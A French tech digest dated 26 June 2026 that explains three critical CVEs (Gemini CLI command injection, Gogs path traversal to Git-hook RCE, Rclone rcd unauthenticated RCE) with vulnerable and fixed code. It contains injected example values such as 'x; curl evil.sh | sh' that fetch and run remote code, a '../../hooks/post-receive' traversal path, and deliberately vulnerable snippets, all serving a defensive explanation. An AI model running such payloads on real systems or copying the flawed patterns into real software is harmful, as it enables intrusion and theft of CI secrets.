



# Tech — Détail du vendredi 26 juin 2026

## 1. Gemini CLI CVE-2026-12537 — injection de commande OS (CVSS 10) en CI/CD

**Source :** CVE Brief — https://cvebrief.com/
**Date :** 24 juin 2026

### Contexte

Les CLI d'IA (revue de code, génération, refactor) s'invitent dans les pipelines CI/CD. Problème : elles s'exécutent avec les **droits du runner** — tokens, secrets, accès au dépôt. Une **injection de commande OS** dans l'outil **Google Gemini CLI** (CVE-2026-12537, CVSS **10**) permet à un attaquant non privilégié d'obtenir une **exécution de code au niveau de l'hôte** pendant le build. Vecteur typique : un dépôt ou une PR piégés, traités automatiquement par la CLI dans le job CI.

### Comment ça marche

L'injection de commande survient quand un programme **concatène une entrée non fiable dans une commande shell** puis la passe à un interpréteur (`/bin/sh -c`). Le shell interprète alors les métacaractères (`;`, `|`, `$()`, backticks). Une entrée comme `x; curl evil.sh | sh` ne reste pas une donnée : elle devient une **deuxième commande**. Dans un contexte CI, cette entrée peut venir d'un nom de branche, d'un message de commit, d'un chemin de fichier ou d'un contenu de PR — tout ce que la CLI « lit » du dépôt.

Le point clé : la frontière entre **donnée** et **code** disparaît dès qu'un shell entre en jeu. `exec()` lance `/bin/sh -c "<chaîne>"` et **réinterprète** la chaîne entière ; `execFile()` lance directement le binaire avec un tableau d'arguments, sans shell, donc sans réinterprétation possible. En CI, le job tourne souvent en root du conteneur, avec les secrets injectés en variables d'environnement. Une seule commande injectée suffit alors à les exfiltrer, ou à pousser un commit signé avec ton token. C'est pourquoi une faille « simple » devient ici un CVSS 10.



### En pratique — exemple de code

Le défaut et son correctif, sur le motif générique d'une CLI Node :

```js
// Avant — l'entrée non fiable (nom de branche, contenu PR) part dans un shell
const { exec } = require("node:child_process");
exec(`git log --grep=${userInput}`);   // userInput = "x; curl evil|sh" -> RCE

// Après — pas de shell : binaire + arguments en tableau, rien n'est interprété
const { execFile } = require("node:child_process");
execFile("git", ["log", `--grep=${userInput}`]); // userInput = 1 seul argument inerte
```

### Pourquoi ça compte pour toi

Si tu fais tourner des agents ou des CLI d'IA dans ta CI, traite-les comme du **code exécuté avec tes secrets**. Épingle les versions, donne au job des **tokens à privilèges minimaux**, isole-le (conteneur jetable, réseau restreint), et ne laisse jamais une entrée de dépôt arriver telle quelle dans un shell. Un build compromis, c'est ta supply-chain compromise.

### Points de vigilance

Aucun patch reflété dans le jeu de données au moment de la publication : surveille l'avis éditeur, restreins l'exposition, et coupe l'auto-exécution de la CLI sur les PR non fiables.

---

## 2. Gogs CVE-2026-52813 — path traversal → RCE via hook Git (CVSS 10)

**Source :** CVE Brief — https://cvebrief.com/
**Date :** 24 juin 2026

### Contexte

**Gogs**, le serveur Git auto-hébergé en Go, est touché par une faille **CVSS 10** (CVE-2026-52813). Un **path traversal** autorise l'**écriture de fichiers à un emplacement arbitraire**, ce qui débouche sur une **exécution de code distante** via une configuration de **hook Git** malveillante. Gogs vise la simplicité et tourne souvent sur une VM modeste, parfois oubliée des cycles de patch. Pour beaucoup d'équipes, le serveur Git est pourtant une brique d'infra centrale : le compromettre, c'est toucher tout le code.

### Comment ça marche

Un path traversal exploite une entrée de chemin mal validée : la séquence `../` fait **remonter** hors du dossier prévu. Si l'application écrit un fichier au chemin fourni par l'utilisateur sans le normaliser, l'attaquant choisit la destination. Ici, la cible juteuse est le dossier `hooks/` du dépôt : un **hook serveur** (ex. `post-receive`) est un script **exécuté automatiquement** par Git à chaque push. Écris un `post-receive` piégé, pousse, et ton script tourne côté serveur — souvent avec des droits élevés.

Pourquoi c'est si grave : les hooks s'exécutent avec l'identité du **processus serveur Git**, en général un compte de service aux droits larges sur la machine. L'attaquant n'a même pas besoin d'un accès d'écriture au dépôt par les voies normales — le path traversal **contourne** le contrôle d'accès applicatif en écrivant directement sur le disque. C'est l'enchaînement *traversal → écriture → exécution différée* qui transforme une simple validation de chemin manquante en compromission totale du serveur.



### En pratique — exemple de code

Le motif vulnérable et la défense par confinement de chemin :

```go
// Avant — le chemin vient de la requête, "../" sort du dossier prévu
dst := filepath.Join(repoDir, r.FormValue("path"))  // "../../hooks/post-receive"
os.WriteFile(dst, body, 0o755)                       // écrit un hook -> exécuté au push

// Après — normaliser PUIS vérifier qu'on reste DANS repoDir
clean := filepath.Join(repoDir, filepath.Clean("/"+r.FormValue("path")))
if !strings.HasPrefix(clean, repoDir+string(os.PathSeparator)) {
    http.Error(w, "chemin invalide", http.StatusBadRequest); return
}
os.WriteFile(clean, body, 0o644) // jamais de bit exécutable sur une donnée uploadée
```

### Pourquoi ça compte pour toi

Tu héberges Gogs (ou un Git maison) ? Patche sans attendre et isole le service. Retiens le principe : **tout chemin issu d'une requête doit être normalisé et confiné** à un répertoire racine, et un upload ne devrait jamais être exécutable. Les hooks Git sont une primitive RCE classique — surveille les écritures dans `hooks/`.

---

## 3. Rclone CVE-2026-49980 — RCE non authentifiée sur le démon rcd (CVSS 9.8)

**Source :** CVE Brief — https://cvebrief.com/
**Date :** 24 juin 2026

### Contexte

**Rclone** sert partout : sync de stockage cloud, scripts de sauvegarde, étapes CI/CD. Son **démon de remote control** (`rcd`) expose une **API HTTP**. La faille CVE-2026-49980 (CVSS **9.8**) permet une **RCE non authentifiée** : des requêtes **GET/HEAD** forgées déclenchent une **exécution de commande locale** lors de l'**initialisation d'un backend**. Si `rcd` est exposé sans auth, c'est la porte ouverte.

### Comment ça marche

`rcd` traduit des appels HTTP en opérations rclone. Certaines opérations **instancient un backend** (un type de stockage) à partir de paramètres de la requête. Si l'initialisation d'un backend peut **lancer une commande** (option de config exécutant un binaire, ou résolution non sécurisée), un appel non authentifié suffit à la déclencher. Le piège GET/HEAD : on croit ces verbes « en lecture seule » et **inoffensifs**, donc souvent non protégés par les contrôles d'accès — alors qu'ici ils provoquent un effet de bord exécuté côté serveur.

Deux facteurs aggravants. D'abord, `rcd` est fréquemment lancé en arrière-plan dans des **scripts de backup** ou des **jobs CI**, parfois avec `--rc-no-auth` « le temps d'un test » puis oublié en place. Ensuite, plusieurs backends acceptent des options qui **invoquent un programme externe** ; leur initialisation à partir de paramètres contrôlés par l'attaquant ouvre la voie à l'exécution. Comme le verbe GET est perçu comme passif, la requête échappe souvent aux règles de pare-feu applicatif et au logging — l'attaque passe sous le radar.



### En pratique — exemple de code

Ne jamais exposer `rcd` sans authentification ni au-delà de localhost :

```bash
# Avant — rcd ouvert à tous, sans auth : un GET/HEAD malveillant -> exécution de commande
rclone rcd --rc-addr :5572 --rc-no-auth

# Après — lié à localhost, autorisation obligatoire (et plus de --rc-no-auth)
rclone rcd --rc-addr 127.0.0.1:5572 \
  --rc-user ops --rc-pass "$RCLONE_RC_PASS"
# Exposition réseau nécessaire ? Passe par un reverse-proxy + TLS, jamais en direct.
```

### Pourquoi ça compte pour toi

`rclone` traîne dans beaucoup de scripts de backup et de jobs CI. Audite tes lancements de `rcd` : bannis `--rc-no-auth`, lie le démon à **127.0.0.1**, mets un mot de passe, et place un reverse-proxy si l'accès distant est requis. Le réflexe « GET = sans danger » est faux dès qu'une requête déclenche un effet de bord serveur.

### Points de vigilance

Mets une authentification dès le **premier** lancement, journalise les requêtes vers `rcd`, et préfère un socket Unix local à un port TCP quand c'est possible. Cherche dans tes dépôts les `--rc-no-auth` traînants : c'est le drapeau qui transforme un utilitaire pratique en porte d'entrée.
